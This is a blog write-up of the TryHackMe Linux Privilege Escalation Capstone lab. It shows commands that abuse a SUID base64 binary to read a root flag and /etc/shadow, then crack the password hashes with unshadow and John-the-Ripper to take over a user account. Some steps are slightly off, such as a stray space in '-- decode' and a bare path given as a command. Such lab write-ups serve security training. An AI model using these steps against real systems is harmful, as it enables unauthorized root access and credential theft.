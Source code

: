 ```yaml
---
title: "TryHackMe Linux Privesc Capstone: A Quick Internal Pentest to Gain Root"
slug: linux-privesc-capstone
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


This walkthrough will go over the [Linux Privilege Escalation Capstone](https://tryhackme.com/room/linprivesc) found on [TryHackMe](https://tryhackme.com/). The objective is to assess your understanding gained from the prior course content by placing you in an internal environment where you already possess low-level privileges on a Linux server. Your task is to identify an attack vector that enables you to escalate your privileges to root.

### Ready, set, go!

First, we want to check and see if there is a `cron job` that we can exploit.

```bash
cat /etc/crontab
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692185826744/eee4c211-6b03-4719-b6c2-265fd4e7ce7e.png){: .center-image }

There's nothing for us here. Let's proceed to see which binaries are available for us to run with `sudo` privileges.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692185884807/e3bcf798-ed39-4656-9de4-2114615d3156.png){: .center-image }

We can exploit the `base64` binary with incorrect permissions to obtain the root flag.

```bash
LFILE=/home/rootflag/flag2.txt
base64 "$LFILE" | base64 --decode
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186099250/bdf8c2f0-8489-4189-b365-156a44e465b3.jpeg){: .center-image }

Well, that worked for obtaining the root flag! Acquiring flag1 was a bit more challenging and required the use of `unshadow`. This command merges the `passwd` and `shadow` files into a single file, which can then be utilized by `John-the-Ripper` to crack passwords.

```bash
LFILE=/etc/shadow
base64 "$LFILE" | base64 -- decode
```

Copy and save the content into a `shadow.txt` file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186390044/98ae8149-e977-40a5-9052-586d75b6bfe3.jpeg){: .center-image }

Grab the contents from `passwd`.

```bash
cat /etc/passwd
```

Copy and save the content into a `passwd.txt` file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186452849/0d57e72e-5b5c-4686-93f5-af8cf005504a.png){: .center-image }

Combine the files and use `John-the-Ripper` to crack the passwords:

```bash
unshadow passwd.txt shadow.txt > passwords.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186645883/49740bc6-7749-4c97-a428-0d480adac3ea.jpeg){: .center-image }

Now that we have obtained `missy's` account password, we can switch users and retrieve the final flag from her `Documents` folder:

```bash
/home/missy/documents
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692186822198/e7a92ac6-8f53-4cc3-914f-73304d6e6958.jpeg){: .center-image }

### Summary

> In this walkthrough, we explore the Linux Privilege Escalation Capstone on TryHackMe, aiming to escalate our privileges to root. We begin by checking for exploitable cron jobs and identifying binaries with sudo privileges. We exploit the base64 binary to obtain the root flag and use unshadow and John-the-Ripper to crack passwords and retrieve the final flag from missy's Documents folder.
